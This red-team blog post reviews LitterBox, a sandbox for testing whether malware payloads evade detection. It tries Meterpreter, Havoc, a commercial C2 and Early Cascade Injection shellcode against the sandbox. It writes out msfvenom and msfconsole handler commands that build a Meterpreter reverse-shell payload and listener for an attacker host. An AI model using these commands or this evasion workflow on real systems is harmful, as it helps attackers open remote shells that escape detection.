 ```yaml
---
layout: post
title: LitterBox: The Sandbox for Malware Developers
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is important to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Recommended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![[/assets/Screenshot-2025-01-21 161217.png]]
![[/assets/Screenshot-2025-01-21 161301.png]]
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![[/assets/Screenshot-2025-01-21 151238.png]]
##### Active Process Inspection
![[/assets/Screenshot 2025-01-21 162202.png]]

![[/assets/Screenshot-2025-01-21 162224.png]]

![[/assets/Screenshot-2025-01-21 162318.png]]
#### Commercial C2
![[Pasted-image-20250122185634.png]]
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![[/assets/Pasted-image-20250122184535.png]]
